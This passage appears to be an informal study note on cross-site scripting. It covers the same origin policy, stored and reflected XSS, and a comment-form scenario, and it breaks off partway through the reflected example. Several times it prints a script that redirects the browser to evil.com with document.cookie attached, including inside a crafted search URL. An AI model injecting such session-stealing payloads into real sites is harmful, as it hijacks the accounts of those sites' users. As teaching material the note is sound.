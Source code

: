 # XSS
XSS is a code injection attack which allows the attacker to execute malicious JAVASCRIPT in another user's browser

- JS is a client side scripting  language where code runs in your browser
- JS can be written inside HTML files inside HTML <script> tag
- Code within this <script> tags is executed in the context of the site

The web's security model is based on the same origin policy
Origin refers to the combination of 
- 1 The url scheme eg http or https
- 2 the hostname e.g google
- 3 the port number, typically 80 for public sites

- This basically means that code (HTML, CSS, JS) from http://somesite.com can only access the data of http://somesite.com
which means that in theory http://evil.com cannot access data from any site other than http://evil.com!
- The key thing here is how do we define code from http://somesite.com.
- This is HTML, CSS , JS which served from that server
- XSS is all about making the browser believe that malicious code came from a trusted site!

- JS runs in a very restricted environment on your browser and it has limited access to that user's operating system and files
- Access cookies which usually contain session information - this can be used to impersonate a user
- send XmlHTTP Requests with any content to any destination
- Edit the DOM of the current website to anything it wants
- JS in modern HTML5 browsers can access the user's geolocation, webcam, certianfiles on user computer
- Remember all this while you believe that you are ona trusted site
- combining the capability of JS and socail engineering hacker can steel a lot.

Phising can happen with this
- Insert a form into DOM of the trusted page and direct the results to be submitted to the attackers server

http://excess-xss.com - great resource to learn all about XSS

#### Example
- 3 actors in XSS attack = Attacker, website, victim
Attacker
- XSS attack targets website not a specific user
- Any user of that website can be compromised
- Name of attacker's website http://www.evil.com
- Attacker seeks: Access to victim's session ID sent via cookies
- script attacker wants to inject
```javascript
<script> 
window.location="http://www.evil.com/?cookie="+document.cookie;
</script>
```
- the cookie information from the current site is apssed as a query parameter to the malicious site.
- evil site can record this info and use it in further attacks.
Website
- name of trusted website: http://www.trustedsite.com
- the website is vulnerable to XSS attacks
Victim
- any user of the trusted website
- willing to handover sensitive information to the site
- so how can the attacker inject this script into a trusted website? = unvalidated and unsanitized user input

Scenario
- lets say the trusted site allows users to input comments - on anything
<input> name
<textbox> comment
 <button> submit
- the forum page on the trusted site displays all comments which have been added.
- whatever the users write the exact same comment without modifications is shown.
- Now attacker came to trusted site and he entered comment as below and hit submit button
   ```javascript
<script> 
window.location="http://www.evil.com/?cookie="+document.cookie;
</script>
``` 
- Now, this input is written directly to the websites comment database(user input has not cleaned in anyway (UNVALIDATED & UNSANITIZED USER INPUT).
- Now our victim visits the comments page of the trusted site
- Boom !!  so what just happened? = victims session ID has gone to evil.com

### Types of XSS
3 types
- 1 Persistent XSS
- 2 Reflected XSS
- 3 DOM Based XSS

##### Persistent XSS
- The malicious script originates from the website's database
- the injected <script> has been persisted amongst other valid data in the website's storage.
- The comment exaple we just saw is Persistent XSS

##### Reflected XSS
- the malicious script is part of the victims request to the website.
- the website then reflects this string back to victim.
lets say the website is a serach page which displays the search query to screen along with the results (like google search)
- eg: you searhced for cute puppies.
- The search term has been rendered on the screen
- ``` http://www.trustedsearch.com?query=cute puppies ```
- this would initiate the search on the servers and return results to the user
- Attacker sends a link chekout the cute puppies on this page where 'this' is hyperlinked to 
``` http://www.trustedsearch.com?query=<script> 
window.location="http://www.evil.com/?cookie="+document.cookie;
</script> ```

The victim

   
   
   




